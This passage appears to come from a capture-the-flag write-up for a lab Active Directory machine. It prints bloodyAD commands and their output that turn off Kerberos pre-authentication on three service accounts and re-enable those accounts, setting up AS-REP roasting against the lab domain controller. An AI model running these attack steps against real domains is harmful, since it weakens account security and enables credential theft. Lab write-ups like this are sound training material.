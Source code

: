 Next, we disable pre-authentication

```bash
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK's userAccountControl
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP's userAccountControl
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl
```

COMMANDS:

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
```

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH
```

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH
```


We enable the account as follows

```bash
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_ARK -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_ARK's userAccountControl
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_LDAP -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_LDAP's userAccountControl
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```

COMMANDS:

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_ARK -f ACCOUNTDISABLE
```

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_LDAP -f ACCOUNTDISABLE
```

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
```
